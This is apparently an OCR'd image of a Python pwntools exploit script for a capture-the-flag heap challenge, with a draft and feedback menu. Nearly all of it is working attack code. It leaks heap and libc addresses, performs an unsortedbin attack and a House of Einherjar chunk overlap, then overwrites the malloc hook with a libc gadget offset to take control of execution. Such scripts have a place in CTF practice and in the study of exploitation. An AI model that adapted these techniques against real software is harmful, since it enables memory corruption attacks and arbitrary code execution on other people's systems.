 ```python
    r.sendlineafter("Enter size of draft: ",str(size))
    r.sendlineafter("Give your feedback: ",feedback)

def view():
    menu(3)

def create():
    menu(4)

def save():

    ''' libc leak + unsortedbin attack '''

    menu(5)
    r.sendlineafter("Enter draft id to save: ",'1')
    r.sendafter("Enter Team Name and Details: ","A"*0x350)
    r.recvuntil("Team: "+("A"*350))
    libc.address=u64(r.recvuntil('\n').strip().replace("A",'').ljust(8,'\x00'))-0x3c4b78#-0x3c1b58
    log.info("libc @ "+hex(libc.address))
    r.sendlineafter("Confirm? <y/n>: ",'n')
    r.sendafter("Enter Team Name and Details: ","A"*0x340+p64(0)+p64(0x51))
    r.sendlineafter("Confirm? <y/n>: ",'y')
    r.sendlineafter("Now give us your contact details: ",p64(0)+p64(libc.address+0x3c4910))


def terminate():

    ''' overwrite malloc hook '''

    r.recvuntil("Enter this captcha code: ")
    captcha=r.recvuntil('\n').strip()
    r.sendline(captcha+'\x00'+p64(libc.address+0x3c6790)+p64(-1,signed=True)+p64(0)+p64(libc.address+0x3c49c0)+p64(0)*6+p64(libc.address+0x3c36e0)+"A"*0x150+p64(libc.address+0xf0274))


def getleak():

    ''' Heap Leak '''

    add_draft("A"*32,-1,"AA",line=False)
    view()
    r.recvuntil("Title: "+"A"*32)
    r.recv(8)
    heap=u64(r.recvuntil('\n').strip().ljust(8,'\x00'))-0x10
    log.info("heap @ "+hex(heap))

    ''' House of Einherjar '''

    add_draft("A",0x3c8,"B"*0x340+p64(0)+p64(0x1a1)+p64(heap+0x860)*4)
    add_draft("A",0x80,"A")
    leave_name("A")
    create()
    add_draft("A",0x100,p64(0x21)*20)
    leave_name("A"*128+p64(0x1a0)+'\x30',line=False)

    save()

    terminate()


if __name__=='__main__':

    getleak()
```